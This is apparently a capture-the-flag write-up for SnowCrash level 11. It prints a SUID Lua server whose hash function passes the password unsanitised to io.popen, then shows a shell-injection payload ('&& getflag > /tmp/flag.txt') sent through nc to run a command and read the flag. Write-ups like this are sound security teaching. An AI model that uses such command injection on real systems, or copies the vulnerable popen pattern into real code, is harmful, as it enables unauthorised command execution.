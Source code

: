 # Level11

Only one file is present in home directory of the `level11` user witch is a script named `level11.lua`. The **SUID** bit is set and the owner is user `flag11`.

```lua
#!/usr/bin/env lua
local socket = require("socket")
local server = assert(socket.bind("127.0.0.1", 5151))

function hash(pass)
  prog = io.popen("echo "..pass.." | sha1sum", "r")
  data = prog:read("*all")
  prog:close()

  data = string.sub(data, 1, 40)

  return data
end


while 1 do
  local client = server:accept()
  client:send("Password: ")
  client:settimeout(60)
  local l, err = client:receive()
  if not err then
      print("trying " .. l)
      local h = hash(l)

      if h ~= "f05d1d066fb246efe0c6f7d095f909a7a0cf34a0" then
          client:send("Erf nope..\n");
      else
          client:send("Gz you dumb*\n")
      end

  end

  client:close()
end
```

We can observe that this script launches a server that listens for client connections on `127.0.0.1`, port `5151`.
It prompts for a password, passes it trough a `hash(pass)` function, compares the hash and outputs a message.

If we try to issue a connection with `nc` on `127.0.0.1`, port `5151` we are indeed prompted for a password. The script is running.

A flaw is present in the hash function where a process is created with `io.popen()` to execute system commands. The password entered is concatenated with the command, so we are able to insert the `getflag` command and redirect it's output to a file.  

```lua
function hash(pass)
  prog = io.popen("echo "..pass.." | sha1sum", "r")
  data = prog:read("*all")
  prog:close()

  data = string.sub(data, 1, 40)

  return data
end
```

Using the double ampersand operator `&&`, we can insert `getflag > /tmp/flag.txt` if we enter it as the password. The resulting command in `io.popen()` will look like this when concatenated:

```
io.popen("echo && getflag > /tmp/flag.txt | sha1sum", "r")
```

We are able to execute our arbitrary command and get the flag.

```
level11@SnowCrash:~$ nc 127.0.0.1 5151
Password: && getflag > /tmp/flag.txt
Erf nope..
level11@SnowCrash:~$ cat /tmp/flag.txt
Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s
```
